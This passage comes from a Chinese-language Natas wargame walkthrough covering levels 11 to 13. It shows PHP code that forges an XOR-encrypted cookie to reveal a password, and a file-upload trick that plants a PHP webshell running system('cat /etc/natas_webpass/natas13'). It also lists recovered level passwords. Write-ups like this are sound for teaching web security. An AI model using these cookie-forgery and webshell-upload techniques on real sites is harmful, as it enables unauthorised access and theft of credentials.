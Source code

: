 
    #qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
    ```
    得到key=qw8J

    ```PHP
    <?php
    $de_result=base64_decode($result);
    $defaultdata=array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
    $new=json_encode($defaultdata);
    $key="qw8J";
    $outText='';

    for($i=0;$i<strlen($new);$i++) {
        $outText .= $new[$i] ^ $key[$i % strlen($key)];
        }

    echo base64_encode($outText);

    ?>

    #ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
    ```

    ```PHP
    抓包cookie改成这个，传进去放包

    EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

    ```

# level 12

>图片马

* steps

    ```PHP
    system("cat /etc/natas_webpass/natas13");

    找个小于1K的图片上传，但其实有两个隐藏的表单

    <input type="hidden" name="MAX_FILE_SIZE" value="1000">
    <input type="hidden" name="filename" value="3xaj1x7skx.jpg">

    可以更改数值，这里直接改后缀或者抓包改后缀都可以

    上传之后打开对应文件

    jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

    ```

# level 13

>文件头

* 图片文件头
